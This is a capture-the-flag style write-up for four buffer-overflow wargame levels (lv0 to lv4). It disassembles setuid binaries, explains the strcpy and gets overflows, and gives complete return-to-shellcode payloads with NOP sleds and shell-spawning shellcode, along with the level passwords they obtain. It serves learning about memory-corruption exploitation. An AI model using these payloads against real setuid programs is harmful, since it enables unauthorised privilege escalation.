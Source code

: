 ```yaml
---
title: 1-0 Wargame Writeup [lv0~lv3]
tags: assignment1 wargame bof lob lv0 lv1 lv2 lv3
---
```


## 0. lv0 > lv1
```
-rwsr-sr-x 1 lv1 lv1 11987 Feb 25  2010 lv1
```
binary "lv1" allows the user to use the permission of user:lv1 upon execution. Let's disassemble this binary

```nasm
   0x08048439 <+9>:	cmp    DWORD PTR [ebp+0x8],0x1
   0x0804843d <+13>:	jg     0x8048456 <main+38>
```
first, the program checks if argc is 1 and exits the program if true.
If not, program continues

```nasm
   0x08048456 <+38>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048459 <+41>:	add    eax,0x4
   0x0804845c <+44>:	mov    edx,DWORD PTR [eax]
   0x0804845e <+46>:	push   edx
   0x0804845f <+47>:	lea    eax,[ebp-0x100]
   0x08048465 <+53>:	push   eax
   0x08048466 <+54>:	call   0x8048370 <strcpy@plt>
   0x0804846b <+59>:	add    esp,0x8
   0x0804846e <+62>:	lea    eax,[ebp-0x100]
   0x08048474 <+68>:	push   eax
   0x08048475 <+69>:	push   0x80484ec
   0x0804847a <+74>:	call   0x8048350 <printf@plt>  
```
the program then copies data from eax to ebp-0x100 using strcpy and prints the copied data using printf

ebp+0xc contains address for array of pointers that point to argv's. adding 4 to ebp+0xc gives address for argv[1], which contains the value that's being copied to ebp-0x100.

Since the program does not limit buffer size, it's vulnerable to BOF attacks. I used "Return To Shellcode" method to solve this problem.

the payload should contain:
1. nop
2. shellcode 
3. dummy data
4. approximate address of shellcode

following is the payload (260 bytes):
```bash
`python -c 'print "\x90"*165 + "\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" + "A"*54 +  "\x38\xd0\xff\xff"'`
```
we can get the shell that has the uid of lv1

```bash
$ my-pass
hello newbie!
```
<br>

## 1. lv1 > lv2
```bash
-rwsr-sr-x 1 lv2  lv2  11970 Feb 25  2010 lv2
```
binary "lv2" has the same special permission as the previous "lv1". Let's take a deeper look.
```nasm
   0x08048453 <+35>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048456 <+38>:	add    eax,0x4
   0x08048459 <+41>:	mov    edx,DWORD PTR [eax]
   0x0804845b <+43>:	push   edx
   0x0804845c <+44>:	lea    eax,[ebp-0x10]
   0x0804845f <+47>:	push   eax
   0x08048460 <+48>:	call   0x8048370 <strcpy@plt>
```
lv2 is similar to previous lv1 but the copy destination is different. Its size is 0x10 which is too small to fit the shellcode (41 bytes).
So, lets use the shellcode stored in argv instead of the buffer.

Our payload should contain:
1. dummy data
2. return address
3. nop
4. shellcode

following is the payload i used:
```bash
`python -c 'print "\x90"*20+"\x30\xd4\xff\xff"+"\x90"*30+"\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
```

we got the shell!
```bash
$ my-pass
tooo easy
```
<br>

## 2. lv2 > lv3
```bash
-rwsr-sr-x 1 lv3  lv3   11824 Feb 25  2010 lv3
```
Same permissions. Lets take a look.
```nasm
   0x080483fe <+6>:	lea    eax,[ebp-0x10]
   0x08048401 <+9>:	push   eax
   0x08048402 <+10>:	call   0x804830c <gets@plt>
```
this program uses gets to store input from stdin to buffer.

payload structure:
1. dummy data
2. return address
3. nop
4. shellcode

payload used:
```bash
(python -c'print "A"*20+"\x30\xd2\xff\xff"+"\x90"*20+"\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"';cat)
```

we can get the shell by passing this to lv3 via pipe
```bash
my-pass
i dont like stdin
```

<br>

## 3. lv3 > lv4
```bash
-rwsr-sr-x 1 lv4  lv4  12567 Apr 26 13:17 lv4
```
Same permissions. Disassembly time:
```masm
   0x08048506 <+6>:	cmp    DWORD PTR [ebp+0x8],0x1
   0x0804850a <+10>:	jg     0x8048523 <main+35>
```
First it checks argc and exit if it's 1
```nasm
   0x08048524 <+36>:	mov    DWORD PTR [ebp-0x2c],0x0
   0x0804852b <+43>:	nop
   0x0804852c <+44>:	lea    esi,[esi+eiz*1+0x0]
   0x08048530 <+48>:	mov    eax,DWORD PTR [ebp-0x2c]
   0x08048533 <+51>:	lea    edx,[eax*4+0x0]
   0x0804853a <+58>:	mov    eax,ds:0x8049750
   0x0804853f <+63>:	cmp    DWORD PTR [eax+edx*1],0x0
   0x08048543 <+67>:	jne    0x8048547 <main+71>
   0x08048545 <+69>:	jmp    0x8048587 <main+135>	;for loop exit
   0x08048547 <+71>:	mov    eax,DWORD PTR [ebp-0x2c]
   0x0804854a <+74>:	lea    edx,[eax*4+0x0]
   0x08048551 <+81>:	mov    eax,ds:0x8049750
   0x08048556 <+86>:	mov    edx,DWORD PTR [eax+edx*1]
   0x08048559 <+89>:	push   edx
   0x0804855a <+90>:	call   0x80483f0 <strlen@plt>
   0x0804855f <+95>:	add    esp,0x4
   0x08048562 <+98>:	mov    eax,eax
   0x08048564 <+100>:	push   eax
   0x08048565 <+101>:	push   0x0
   0x08048567 <+103>:	mov    eax,DWORD PTR [ebp-0x2c]
   0x0804856a <+106>:	lea    edx,[eax*4+0x0]
   0x08048571 <+113>:	mov    eax,ds:0x8049750
   0x08048576 <+118>:	mov    edx,DWORD PTR [eax+edx*1]
   0x08048579 <+121>:	push   edx
   0x0804857a <+122>:	call   0x8048430 <memset@plt>	;void * memset ( void * ptr, int value, size_t num );
   0x0804857f <+127>:	add    esp,0xc
   0x08048582 <+130>:	inc    DWORD PTR [ebp-0x2c]
   0x08048585 <+133>:	jmp    0x8048530 <main+48>
```
Then it goes through environment values and overwrites them with zero using memset. Our previous payloads does not make any use of env values, so this shouldn't be a problem.

```nasm
   0x08048587 <+135>:	mov    eax,DWORD PTR [ebp+0xc]	;address of argv array (eax = argv[0])
   0x0804858a <+138>:	add    eax,0x4			;second item of argv array (eax = argv[1])
   0x0804858d <+141>:	mov    edx,DWORD PTR [eax]	;pointer of argv[1] value (edx = *argv[1])
   0x0804858f <+143>:	add    edx,0x2f			;0x2f th char of argv[1] value (edx = *argv[1][0x2f])
   0x08048592 <+146>:	cmp    BYTE PTR [edx],0xff
   0x08048595 <+149>:	je     0x80485b0 <main+176>
```
After the for loop of erasing env's, it compares argv[1] value's 0x2f th byte with 0xff
```nasm
   0x080485b0 <+176>:	mov    eax,DWORD PTR [ebp+0xc]
   0x080485b3 <+179>:	add    eax,0x4
   0x080485b6 <+182>:	mov    edx,DWORD PTR [eax]
   0x080485b8 <+184>:	push   edx
   0x080485b9 <+185>:	lea    eax,[ebp-0x28]
   0x080485bc <+188>:	push   eax
   0x080485bd <+189>:	call   0x8048440 <strcpy@plt>
```
Then it copies argv[1] value to ebp-0x28. Since the buffer size is 0x28, return address should start at 0x2c th byte. Which means 0x2f is the last byte of return address. Considering the fact that i386 uses little-endian, the previous step was meant to check if return address was pointing to an address starting with 0xff.

payload structure should be similar to previous ones:
1. dummy data
2. return address
3. nop
4. shell code

by using:
```bash
`python -c 'print "\x90"*44+"\xa0\xd1\xff\xff"+"\x90"*30+"\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
```
I got the shell:
```bash
$ my-pass
broken egg
```
 

